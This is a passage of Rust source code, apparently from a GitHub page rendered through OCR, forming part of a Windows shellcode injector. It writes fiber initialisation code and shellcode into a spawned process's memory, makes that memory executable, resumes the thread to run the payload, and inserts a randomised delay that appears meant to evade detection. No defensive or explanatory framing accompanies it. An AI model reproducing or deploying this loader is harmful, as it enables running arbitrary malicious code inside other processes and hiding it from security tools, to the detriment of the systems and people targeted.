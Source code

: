 ```rust
        fiber_init_code.len(),
        &mut number_of_bytes_written,
    );
    
    if result == 0 || number_of_bytes_written != fiber_init_code.len() {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to write fiber init code: {}", error).into());
    }
    
    // Write the actual shellcode after the fiber init code
    let shellcode_addr = (base_address as usize + 512) as *mut c_void; // Offset to ensure alignment
    let result = WriteProcessMemory(
        process_info.hProcess,
        shellcode_addr,
        code.as_ptr() as *const c_void,
        code.len(),
        &mut number_of_bytes_written,
    );
    
    if result == 0 || number_of_bytes_written != code.len() {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to write shellcode: {}", error).into());
    }
    
    // Change memory protection to allow execution
    let result = VirtualProtectEx(
        process_info.hProcess,
        base_address,
        fiber_init_code.len() + code.len() + 512,
        PAGE_EXECUTE_READ,
        &mut old_protection,
    );
    
    if result == 0 {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to change memory protection: {}", error).into());
    }
    
    // Resume the thread to execute our fiber initialization code
    let result = ResumeThread(process_info.hThread);
    if result == 0xFFFFFFFF {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to resume thread: {}", error).into());
    }
    
    // Add small delay to allow process initialization
    let delay = rand::random::<u32>() % 200 + 100;
    win::Sleep(delay);
    
    // Clean up handles
    CloseHandle(process_info.hProcess);
    CloseHandle(process_info.hThread);
    
    Ok(())
```